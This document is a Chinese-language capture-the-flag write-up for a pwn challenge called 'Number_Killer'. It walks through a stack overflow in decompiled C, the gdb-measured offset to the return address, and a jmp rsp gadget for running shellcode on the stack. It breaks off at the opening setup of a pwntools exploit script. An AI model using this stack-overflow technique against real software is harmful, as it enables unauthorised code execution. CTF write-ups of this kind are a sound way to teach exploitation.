 ```c
int __cdecl main(int argc, const char **argv, const char **envp){
  __int64 v4[11]; // [rsp+0h] [rbp-60h]
  int i; // [rsp+5Ch] [rbp-4h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  memset(v4, 0, 0x50uLL);
  puts("Let's Pwn me with numbers!");
  for ( i = 0; i <= 19; ++i )
    v4[i] = readll();
  return 0;
}
```

这里`v4`是个整数数组，长度为12，但是在for循环中却向`v4`中读了20个整数，因此将导致栈溢出。

用`gdb`调试程序，得到数组`v4`的首地址`v4 = 0x7fffffffda90`，以及返回地址` ret_addr = 0x7fffffffdaf8`，二者相差104个字节，由于`v4`存的整数`int64`类型，大小是8字节，因此读入13个整数后，将覆盖程序返回地址。

程序代码中有一个出题人给的`gift`函数：

```assembly
.text:0000000000400789 gift            proc near
.text:0000000000400789 ; __unwind {
.text:0000000000400789                 push    rbp
.text:000000000040078A                 mov     rbp, rsp
.text:000000000040078D                 jmp     rsp
.text:000000000040078D gift            endp
```

能直接利用其中的`gadget: jmp rsp`，将返回地址覆盖为`0x40078D`(gadget的地址)，把程序的控制流劫持到栈中。溢出发生是`rsp`的值正好是`v4`的首地址，因此向`v4`中布置`shellcode`即可。

这题有以下几点要注意：

- 只能输入13个整数，因此shellcode的长度应该小于104字节
- 需要将`shellcode`每8个字节转成一个`int64`，且在`readall()`存在检查，整数的长度不能超过20，因此需要寻找一个合适的`shellcode`，不能用`pwntool`自动生成

#### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './Number_Killer'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch
```